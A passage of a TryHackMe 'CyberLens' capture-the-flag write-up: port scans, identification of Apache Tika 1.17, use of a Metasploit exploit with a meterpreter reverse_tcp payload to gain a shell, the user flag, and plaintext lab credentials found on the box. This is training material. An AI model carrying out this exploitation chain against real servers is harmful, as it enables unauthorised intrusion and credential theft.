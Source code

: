 Platform: TryHackMe
Room: CyberLens
URL: https://tryhackme.com/r/room/cyberlensp6
Date: June 5, 2024

# Notes
10:21 am
Loaded target machine
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:\Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

10:48 am
Obtained first flag\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)

Navigated to C:\Users\CyberLens\Documents\Management and found file `CyberLens-Management.txt`

File appears to contain credentials:
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/6da3b7e0-1e1f-4a9c-a498-be60ac00cad9)

CyberLens
HackSmarter123

Checked MSI policies
